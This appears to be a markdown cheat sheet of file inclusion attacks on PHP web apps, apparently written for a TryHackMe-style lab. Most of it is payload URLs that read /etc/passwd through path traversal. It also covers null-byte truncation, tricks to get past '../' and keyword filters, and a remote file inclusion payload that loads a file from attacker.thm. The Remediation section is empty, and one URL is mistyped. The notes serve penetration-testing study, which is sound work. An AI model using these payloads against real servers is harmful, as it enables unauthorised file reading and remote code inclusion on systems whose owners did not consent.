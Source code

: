 #### Specific directory

```bash
# Example
# On source code -> include("languages/". $_GET['lang']);
# If there is not validation input, we can use path transversal to read all file readable one the remote server
http://webapp.thm/index.php?lang=../../../etc/passwd
http://webapp.thm/index.php?file=../../../etc/passwd
```

```bash
# Example : hard specific directory on url
http://webapp.thm/index.php?lang=languages/EN.php
http://webapp.thm/index.php?lang=languages/../../../../../etc/passwd
```

### Bypass include function's filter

#### Trunc string

```bash
# Example
http://webapp.thm/index.php?lang=test.php -> include(languages/test.php);
http://webapp.thm/index.php?lang=../../../../etc/passwd -> include(languages/../../../../../etc/passwd.php)
# Trunc .php extension
# Null byte -> %00
http://webapp.thm/index.php?lang=../../../../etc/passwd%00
```

### Keywords filtered

```bash
# Example : /etc/passwd is filtered
http://webapp.thm/index.php?lang=/etc/passwd%00
http://webapp.thm/index.php?lang=/etc/passwd/.
```

```bash
# Example : ../ is filtered
http://webapp.thm/index.php?lang=../../../../etc/passwd -> include(languages/etc/passwd)
ttp://webapp.thm/index.php?lang=....//....//....//....//....//etc/passwd
```

### Remote File Inclusion (RFI)

Inject external URL with no properly sanitizing input (need allow_url_fopen function to be on)

```bash
# Example
# URL injection
http://webapp.thm/index.php?lang=http://attacker.thm/file.txt
```

### Remediation
